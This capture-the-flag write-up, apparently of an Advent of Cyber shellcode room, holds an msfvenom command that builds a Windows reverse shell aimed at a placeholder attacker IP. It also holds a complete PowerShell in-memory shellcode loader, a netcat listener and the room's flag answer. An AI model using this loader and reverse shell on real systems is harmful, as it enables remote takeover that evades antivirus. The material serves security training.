


# Day 8 - Shellcodes



## Shellcode

- **Definition**: A small piece of code used by malicious actors during exploits (e.g., buffer overflow attacks).
- **Purpose**: Inject commands into a vulnerable system, enabling execution of arbitrary commands or full control over a compromised machine.
- **Characteristics**:
    - Typically written in assembly language.
    - Delivered via techniques specific to the exploited vulnerability.

## PowerShell

- **Definition**: A scripting language and command-line shell in Windows for task automation and configuration management.
- **Legitimate Use**: Used by administrators to manage system components.
- **Malicious Use**:
    - Commonly used as a post-exploitation tool.
    - Executes scripts in memory, bypassing disk-based detection.

## Windows Defender

- **Function**: Built-in Windows security tool that detects and prevents malicious scripts.
- **Bypass Techniques**:
    - **Script Obfuscation**: Hides malicious content from signature-based detection.
    - **Reflective Injection**: Loads malicious code directly into memory, avoiding detection mechanisms.

## Windows API

- **Definition**: A set of functions allowing programs to interact with the Windows OS for essential tasks like memory management, file operations, and networking.
- **Significance**:
    - Acts as a bridge between applications and the OS.
    - Widely used in exploitation techniques and malware development.
- **Common Functions**:
    - `VirtualAlloc`
    - `CreateThread`
    - `WaitForSingleObject`

## Accessing Windows API via PowerShell Reflection

- **Definition**: A method for dynamically interacting with the Windows API from PowerShell at runtime.
- **Advantages**:
    - Eliminates the need for pre-compiled binaries.
    - Enables manipulation of low-level system processes.
    - Useful for bypassing security mechanisms and executing stealthy code.

## Reverse Shell

- **Definition**: A type of connection where the target machine initiates a connection back to the attacker's machine.
- **Purpose**: Provides control of the target machine from the attacker’s machine (e.g., the AttackBox).

---

## Generating Shellcode

We will be using `msfvenom` to generate our reverse shell, using the following command:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```

### Components of the Command

1. **`p windows/x64/shell_reverse_tcp`**:
    - **Flag**: `p` specifies the type of payload to create.
    - **Payload**: `windows/x64/shell_reverse_tcp` creates a reverse shell for a 64-bit Windows machine.
2. **`LHOST=ATTACKBOX_IP`**:
    - **Purpose**: Specifies the IP address of the attacker's machine (the *AttackBox*).
    - **Function**: Tells the reverse shell where to connect back.
3. **`LPORT=1111`**:
    - **Purpose**: Defines the port on the AttackBox that will listen for incoming connections.
    - **Requirement**: The port must match the one configured on your listener.
4. **`f powershell`**:
    - **Flag**: Specifies the format of the generated payload.
    - **Output**: Produces the shellcode in PowerShell format, suitable for execution as a script on a Windows machine.

The actual shellcode in the output above is the hex-encoded byte array, which starts with `0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. We can execute this shellcode by loading it into memory and then creating a thread for its execution. In this case, we will use PowerShell to call few Windows APIs via C# code.

```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

**Explanation of the Code**

The script starts by defining a few C# classes. These classes use the `DllImport` attribute to load specific functions from the `kernel32` DLL, which is part of the Windows API.

- [`VirtualAlloc`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc): This function allocates memory in the process's address space. It's
commonly used in scenarios like this to prepare memory for storing and
executing shellcode.
- [`CreateThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread): This function creates a new thread in the process. The thread will execute the shellcode that has been loaded into memory.
- [`WaitForSingleObject`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject): This function pauses execution until a specific thread finishes its task (Making sure shellcode completes its execution).

**Storing the Shellcode in a Byte Array**

Next, the script stores the shellcode in the `$buf` variable, a byte array. These hex values are the instructions that will be executed when the shellcode runs.

**Allocating Memory for the Shellcode**

The [`VirtualAlloc`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function then allocates a block of memory where the shellcode will be stored. The script uses the following arguments:

- `0` for the memory address, meaning that Windows will decide where to allocate the memory.
- `$size` for the size of the memory block, which is determined by the length of the shellcode.
- `0x3000` for the allocation type, which tells Windows to reserve and commit the memory.
- `0x40` for memory protection, the memory is readable and executable (necessary for executing shellcode).

After memory is allocated, the `Marshal.Copy` function copies the shellcode from the `$buf` array into the allocated memory address (`$addr`), preparing it for execution.

**Executing the Shellcode and Waiting for Completion**

Once the shellcode is stored in memory, the script calls the [`CreateThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) function to execute the shellcode by creating a new thread. This thread is instructed to start execution from the memory address where the shellcode is located (`$addr`). The script then uses the [`WaitForSingleObject`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) function, ensuring it waits for the shellcode execution to finish before continuing. This makes sure that the shellcode runs completely before the script ends its execution.

---

## Executing the Shellcode

On our attacking machine, we will set up a `netcat` listener. The IP address and port options were already defined when we created our shellcode using `msfvenom`.

```powershell
# nc -nvlp 1111 
Listening on [0.0.0.0] (family 0, port 1111)  
```

Next on the victim machine, we will need to open up a PowerShell window and paste in our script to begin execution and eventually receive a connection on port 1111.


On a successful connection, the terminal on the attacking machine will look like this:



---

## Challenge Task

We now need to perform some troubleshooting on Glitch’s shellcode. Glitch has realised he's no longer receiving incoming connections from his home base. Mayor Malware's minion team seems to have tampered with the shellcode and updated both the IP and port, preventing Glitch from connecting.

---

## Questions

1. What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the **C:\Users\glitch\Desktop** directory. You can view the content of the flag by using the command **`type C:\Users\glitch\Desktop\flag.txt`**.
    
    For this task, we use the same steps mentioned above with `msfvenom`, except we will be setting the `LPORT` option to `4444`.
    
    
    Ans.: **AOC{GOT_MY_ACCESS_B@CK007}**